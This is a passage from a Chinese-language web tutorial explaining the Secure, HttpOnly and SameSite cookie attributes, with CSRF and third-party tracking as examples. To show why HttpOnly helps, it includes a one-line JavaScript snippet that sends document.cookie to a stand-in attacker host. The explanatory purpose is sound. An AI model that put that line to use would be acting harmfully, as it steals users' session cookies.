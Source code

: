 ### Secure，HttpOnly

`Secure`屬性指定瀏覽器只有在加密協議 HTTPS 下，才能將這個 Cookie 傳送到伺服器。另一方面，如果當前協議是 HTTP，瀏覽器會自動忽略伺服器發來的`Secure`屬性。該屬性只是一個開關，不需要指定值。如果通訊是 HTTPS 協議，該開關自動開啟。

`HttpOnly`屬性指定該 Cookie 無法透過 JavaScript 指令碼拿到，主要是`document.cookie`屬性、`XMLHttpRequest`物件和 Request API 都拿不到該屬性。這樣就防止了該 Cookie 被指令碼讀到，只有瀏覽器發出 HTTP 請求時，才會帶上該 Cookie。

```javascript
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

上面是跨站點載入的一個惡意指令碼的程式碼，能夠將當前網頁的 Cookie 發往第三方伺服器。如果設定了一個 Cookie 的`HttpOnly`屬性，上面程式碼就不會讀到該 Cookie。

### SameSite

Chrome 51 開始，瀏覽器的 Cookie 新增加了一個`SameSite`屬性，用來防止 CSRF 攻擊和使用者追蹤。

Cookie 往往用來儲存使用者的身份資訊，惡意網站可以設法偽造帶有正確 Cookie 的 HTTP 請求，這就是 CSRF 攻擊。舉例來說，使用者登陸了銀行網站`your-bank.com`，銀行伺服器發來了一個 Cookie。

```http
Set-Cookie:id=a3fWa;
```

使用者後來又訪問了惡意網站`malicious.com`，上面有一個表單。

```html
<form action="your-bank.com/transfer" method="POST">
  ...
</form>
```

使用者一旦被誘騙傳送這個表單，銀行網站就會收到帶有正確 Cookie 的請求。為了防止這種攻擊，表單一般都帶有一個隨機 token，告訴伺服器這是真實請求。

```html
<form action="your-bank.com/transfer" method="POST">
  <input type="hidden" name="token" value="dad3weg34">
  ...
</form>
```

這種第三方網站引導發出的 Cookie，就稱為第三方 Cookie。它除了用於 CSRF 攻擊，還可以用於使用者追蹤。比如，Facebook 在第三方網站插入一張看不見的圖片。

```html
<img src="facebook.com" style="visibility:hidden;">
```

瀏覽器載入上面程式碼時，就會向 Facebook 發出帶有 Cookie 的請求，從而 Facebook 就會知道你是誰，訪問了什麼網站。

Cookie 的`SameSite`屬性用來限制第三方 Cookie，從而減少安全風險。它可以設定三個值。

> - Strict
> - Lax
> - None

**（1）Strict**

`Strict`最為嚴格，完全禁止第三方 Cookie，跨站點時，任何情況下都不會發送 Cookie。換言之，只有當前網頁的 URL 與請求目標一致，才會帶上 Cookie。

```http
Set-Cookie: CookieName=CookieValue; SameSite=Strict;
```

